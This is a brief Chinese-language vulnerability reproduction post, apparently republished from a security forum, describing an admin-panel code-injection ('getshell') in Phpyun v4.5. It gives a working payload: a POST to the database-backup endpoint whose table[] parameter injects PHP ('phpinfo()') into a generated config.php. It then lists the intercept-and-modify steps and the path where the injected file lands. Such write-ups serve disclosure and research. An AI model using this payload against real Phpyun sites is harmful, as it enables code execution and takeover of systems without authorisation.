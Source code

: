 # Phpyun v4.5 后台getshell

> 原文：[https://www.zhihuifly.com/t/topic/3092](https://www.zhihuifly.com/t/topic/3092)

# Phpyun v4.5 后台getshell

## 一、漏洞简介

## 二、漏洞影响

Phpyun v4.5

## 三、复现过程

### payload：

```
Url： http://www.0-sec.org/admin/index.php?m=database&c=backup `Post：

pytoken=3c3140b58f5e&table[]=]=1;phpinfo();//&maxfilesize=1111` 
```

漏洞复现过程： 首先进入后台-》点击工具-》数据-》数据库管理-》自定义备份-》随便选择一个表-》提交备份

![image](img/74651dde3ca18f3fada476df3562c600.png)

抓包，修改table[] 参数-》发送

![image](img/e56cb1d9c59997cadc78b8e4d7ed31c5.png)

![image](img/c3bd17c6e1f10a2572d57ff9c10c5206.png)

产生的文件就在uploads/data/plus/bdata/phpyun_20200312153927/config.php
Url：访问（这里搭建的时候环境，我默认指向了uploads）

![image](img/ee54eb599dcd2d54ed591625829f84a6.png)